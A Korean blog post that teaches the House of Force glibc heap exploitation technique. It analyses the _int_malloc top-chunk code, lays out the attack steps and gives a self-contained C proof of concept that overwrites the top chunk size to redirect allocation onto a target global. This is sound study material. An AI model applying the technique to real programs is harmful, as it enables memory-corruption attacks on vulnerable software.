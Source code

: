 ```yaml
---
layout: post
title: "House of Force"
author: "B3LLz"
tags: exploit-tech
excerpt_separator: <!--more-->
---
```


# House of Force

House of Force attack은 top chunk를 이용한 공격이다.

정확히는 Top chunk의 size를 조작하여 임의의 주소에 힙 청크를 할당시킬 수 있는 공격이다.

# Top Chunk 처리 코드 분석

다음은 `malloc.c` 의 소스코드에서 Top Chunk를 처리하는 `_int_malloc()`의 일부분이다.

```c
victim = av->top;  // top chunk의 주소를 가져옴.
size = chunksize (victim);  // top chunk의 size를 구함.

if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
  {
    remainder_size = size - nb;
    remainder = chunk_at_offset (victim, nb);
    av->top = remainder;
    set_head (victim, nb | PREV_INUSE |
              (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head (remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk (av, victim, nb);
    void *p = chunk2mem (victim);
    alloc_perturb (p, bytes);
    return p;
  }
```

1. Top Chunk의 주소와 크기를 저장한다(`victim = av→top`, `size = chunksize(victim)`).
2. Top Chunk의 크기가  `nb + MINSIZE` (요청받은 Chunk의 크기 + Chunk의 최소 크기)보다 크거나 같은지 검사한다.
3. Top Chunk의 크기`size`에서 `nb`를 빼준 값을 `remainder_size`에 저장한다.
4. `**chunk_at_offset` 매크로를 통해 반환된 값을 `remainder` 에 저장한다. `chunk_at_offset` 매크로는 아래와같이 정의되어 있다.**
    
    ```c
    #define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
    ```
    
    따라서 Top Chunk의 주소 값 `victim`에 `nb`를 더해준 값을 반환한다.
    
5. `remainder`는 다시 Top Chunk(`av→top`)에 저장한다.
6. `set_head`를 통해 Chunk의 header 부분을 setting 해주고 힙 영역에 메모리를 할당한다.

# House of Force Attack Flow

1. `malloc()`으로 힙 영역에 메모리를 할당한다.
    
    ![hof1](/images/hof1.png)
    
2. Top Chunk의 size 값을 `0xffffffff`(32bit)나  `0xffffffffffffffff`(64bit) 값으로 덮어쓴다.
    - 위에서 설명했던 것처럼`_int_malloc`에서 Top Chunk의 크기와 할당을 요청받은 크기를 비교하는 조건문을 참으로 만들어 힙 영역에 메모리를 할당할 수 있게 한다.
    
    ![hof2](/images/hof2.png)
    
3. 원하는 주소를 할당 받기 위해 아래의 값을 `malloc()` 인자로 전달한다.
    
    [`할당 받고자하는 메모리 주소 - Chunk header size - Top Chunk addr - Chunk header size`]
    
    ex) `0x601048 - 0x10 - 0x6024A0 - 0x10 = 0xffffffffffffeb88`
    
    - 계산된 값을 `malloc()`의 인자로 넣어주게 되면 인자로 넣어준 크기만큼 메모리를 할당하게 되는데 위에서 설명한 `chunk_at_offset` 매크로를 통해 Top Chunk의 주소가   `top chunk 주소 + 할당 요청 크기`가 된다.
    
    ![hof3](/images/hof3.png)
    
4. 그리고 다시 한 번 `malloc()`을 호출하면 원하는 주소를 반환한다.
    - 다시 한 번 `malloc()`을 해줌으로써 Target Address에 메모리가 할당된다.
    
    ![hof4](/images/hof4.png)
    

# Example

아래의 코드는 다음과 같은 동작을 하며 Target Address는 `0x601048` 이다.

1. 128byte 크기의 메모리를 할당한다.
2. Top Chunk의 Size를 `0xffffffffffffffff`으로 Overwrite 한다.
3. House of Force 공격을 하기 위해 메모리 할당해줄 크기를 구한다.
    1. `(uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18`에서 `0x18`인 이유는 Target Address가 `0x601048`로 되어있기 때문에 보다 정확하게 할당해주기 위해서 Target Address의 메타데이터 크기인 `0x10`에서 `0x8`을 더 빼주었다.
    2. 힙은 16byte 단위로 메모리를 할당해주기 때문에 `0x10`만 빼주어도 `0x18`을 빼준 것과 동일한 주소에 할당을 해주지만 정확한 위치에 할당해주기 위함이다.
4. `malloc()`으로 메모리 할당을 한 번 더 해주면 Target Address의 값을 변조할 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

char* target = "Target!!!";
char* exploit = "EXPL0I7!!!!";

int main(int argc, char* argv[]){
    uint64_t* buf1, *buf2, *buf3;
    uint64_t* top_chunk_size;
    uint64_t* top_chunk;

    printf("==Before House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);
    printf("Target Addr: %p\n\n", &target);

    printf("1. malloc(128)\n");
    buf1 = malloc(128); // Memory Alloc

    top_chunk = &buf1[16];       // Top Chunk Addr
    top_chunk_size = &buf1[17];  // Top Chunk Size Addr

    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Top Chunk Size Overwrite */
    printf("2. OverWrite Top Chunk Size\n");
    *top_chunk_size = 0xffffffffffffffff;
    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Calculate Address to House of Force */
    uint64_t calc = (uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18;
    printf("3. House of Force!!\n");

    printf("Calc : %lx\n", calc);
    printf("malloc(0x%lx)\n", calc);

    /* House of Force */
    buf2 = malloc(calc);
    printf("[+] buf2 addr: %p\n", buf2);

    /* One More Allocation */
    buf3 = malloc(128);
    printf("[+] buf3 addr: %p\n\n", buf3);

    buf3[1] = (uint64_t)exploit;

    printf("==After House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);

    return 0;
}
```